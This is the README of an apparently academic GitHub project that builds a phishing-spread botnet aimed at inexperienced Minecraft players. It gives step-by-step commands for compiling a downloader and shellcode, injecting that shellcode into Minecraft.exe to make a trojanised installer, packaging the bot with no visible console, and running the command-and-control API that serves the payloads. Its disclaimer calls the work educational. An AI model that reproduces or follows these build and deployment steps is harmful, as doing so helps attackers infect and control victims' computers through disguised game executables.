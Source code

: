 # MALW-MinecraftBotnet

MinecraftBotnet is a project develop to create an automated botnet which propagate though phishing emails. The target audience would be unexperienced people that plays Minecraft. This project was develop as Assignment during the Malware's subject of the Master's degree in Cybersecurity (UPC).

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet guts.

1. [API](/API/): Simple webserver API which will provide all available files to be downloaded and schedule each machine, inside the botnet, to execute the desired tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via the creation of a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable, and another c++ script that will be downloaded by the shellcode, in charge of setting up the malware in victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Intruction:

### Compiling shellcode and mainDownloader
Maindownloader:

- `$ cd /Payload`
- `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
- Now, you can place the generated executable inside [API downloads folder](/API/downloads).


Payload (shellcode):
* `$ cd /Payload`
* `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
* Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
* `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
* `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
* `$ objdump -d _assembly.exe`
  * ¡Gitbash required or any alternative! *See tmp.txt file to see the desire output
* Paste the .text section inside tmp.txt file
* `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encounter several errors with the gcc distribution, to compile the MainDownloader we have used the `LLVM` distribution. However, for the shellcode part we have used `MinGW` distribution.

> [!IMPORTANT]
> You will need gcc, gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
* `$ cd /Scripts`
* `$ python -m PyInstaller --onefile --noconsole times.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
* `$ cd /Malware`
* `$ python -m PyInstaller --onefile --noconsole botScript.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
* Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
* `$ g++ -c PE.cpp -std=c++17`
* `$ g++ -c InfectPE.cpp -std=c++17`
* `$ g++ -o InfectPE.exe InfectPE.o PE.o`
* `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
* Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.

* `$ cd /API`
* `$ pip install -r requirements.txt`
* `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy to docker this API. However, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.
